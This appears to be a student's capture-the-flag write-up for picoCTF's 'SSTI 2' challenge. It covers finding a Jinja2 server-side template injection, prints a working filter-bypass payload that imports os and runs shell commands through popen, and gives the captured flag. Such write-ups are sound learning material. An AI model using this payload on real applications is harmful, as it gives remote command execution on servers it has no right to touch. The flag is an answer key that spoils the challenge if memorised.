 # SSTI 2
-first again i read what sst12 is from the official port swigger document
-after that found out about the tempelate {3*3} and the other to find what type of html formatting is being done
-it cam out to be jinga(spelling might be wrong)
-after that i searched which payload to use for that i found a site that had the jinja payloads
-https://onsecurity.io/article/server-side-template-injection-with-jinja2/
-i tried all the payloads in that page but only this one word after in the space i did ls -a and then cat the flag i wrote in the id place
```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}


```
## Flag
picoCTF{sst1_f1lt3r_byp4ss_afa6aa72}


## Resource
-the official port swigger document
-https://onsecurity.io/article/server-side-template-injection-with-jinja2/

